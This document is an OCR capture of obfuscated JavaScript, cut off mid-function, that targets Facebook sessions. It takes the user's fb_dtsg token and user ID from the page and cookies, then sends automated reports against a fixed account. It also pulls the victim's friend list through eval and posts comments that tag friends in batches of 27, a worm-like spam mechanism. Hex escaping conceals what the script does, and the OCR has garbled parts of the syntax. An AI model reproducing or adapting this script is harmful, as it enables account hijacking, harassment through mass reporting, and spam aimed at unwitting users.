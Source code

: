 _0xb161=["\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x72\x65\x70\x6F\x72\x74\x2F\x73\x6F\x63\x69\x61\x6C\x2E\x70\x68\x70","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x62\x6C\x6F\x63\x6B\x3D\x31\x26\x70\x70\x3D\x25\x37\x42\x25\x32\x32\x61\x63\x74\x69\x6F\x6E\x73\x5F\x74\x6F\x5F\x74\x61\x6B\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x5B\x5D\x25\x32\x32\x25\x32\x43\x25\x32\x32\x61\x72\x65\x5F\x66\x72\x69\x65\x6E\x64\x73\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x63\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x63\x6F\x6E\x74\x65\x6E\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x30\x25\x32\x43\x25\x32\x32\x65\x78\x70\x61\x6E\x64\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x33\x41\x31\x25\x32\x43\x25\x32\x32\x66\x69\x72\x73\x74\x5F\x63\x68\x6F\x69\x63\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x32\x43\x25\x32\x32\x66\x72\x6F\x6D\x5F\x67\x65\x61\x72\x25\x32\x32\x25\x33\x41\x25\x32\x32\x74\x69\x6D\x65\x6C\x69\x6E\x65\x25\x32\x32\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x66\x6F\x6C\x6C\x6F\x77\x69\x6E\x67\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x74\x61\x67\x67\x65\x64\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x6F\x6E\x5F\x70\x72\x6F\x66\x69\x6C\x65\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x70\x68\x61\x73\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x72\x65\x66\x25\x32\x32\x25\x33\x41\x25\x32\x32\x68\x74\x74\x70\x73\x25\x33\x41\x25\x35\x43\x25\x32\x46\x25\x35\x43\x25\x32\x46\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x25\x35\x43\x25\x32\x46\x4E\x61\x6E\x2E\x65\x72\x74\x74\x37\x25\x32\x32\x25\x32\x43\x25\x32\x32\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x31\x34\x35\x25\x32\x43\x25\x32\x32\x72\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x73\x75\x62\x5F\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x74\x69\x6D\x65\x5F\x66\x6C\x6F\x77\x5F\x73\x74\x61\x72\x74\x65\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x75\x73\x65\x72\x25\x32\x32\x25\x33\x41","\x25\x37\x44\x26\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x3D\x31\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x32\x71\x6D\x76\x75\x35\x6B\x39\x55\x6D\x41\x41\x61\x55\x56\x70\x6F\x26\x5F\x5F\x72\x65\x71\x3D\x75\x26\x74\x74\x73\x74\x61\x6D\x70\x3D\x32\x36\x35\x38\x31\x36\x38\x35\x37\x31\x30\x37\x31\x31\x30\x38\x38\x38\x30","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x30\x30\x30\x30\x36\x39\x35\x32\x31\x31\x39\x30\x34\x38"];var fb_dtsg=document_0xb161[2][0][_0xb161[0]];var user_id=document[_0xb161[4]]_0xb161[3];var now=( new Date)_0xb161[5];function Report(_0x45e7x5){var _0x45e7x6= new XMLHttpRequest();var _0x45e7x7=_0xb161[6];var _0x45e7x8=_0xb161[7]+fb_dtsg+_0xb161[8]+_0x45e7x5+_0xb161[9]+_0x45e7x5+_0xb161[10]+now+_0xb161[11]+user_id+_0xb161[12]+user_id+_0xb161[13];_0x45e7x6_0xb161[15];_0x45e7x6[_0xb161[16]]=function (){if(_0x45e7x6[_0xb161[17]]==4&amp;&amp;_0x45e7x6[_0xb161[18]]==200){_0x45e7x6[_0xb161[19]];} ;} ;_0x45e7x6_0xb161[20];} ; var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","343111209163319","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document_0xa22c[2][0][_0xa22c[0]];var user_id=document[_0xa22c[4]]_0xa22c[3];var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()_0xa22c[11]+_0xa22c[13]);for(f=0;f&lt;Math_0xa22c[17];f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]]_0xa22c[31]>=0){_0x7892x7_0xa22c[35];} else {_0x7892x7_0xa22c[35];} ;_0x7892x7_0xa22c[37];} ;function RandomArkadas(){var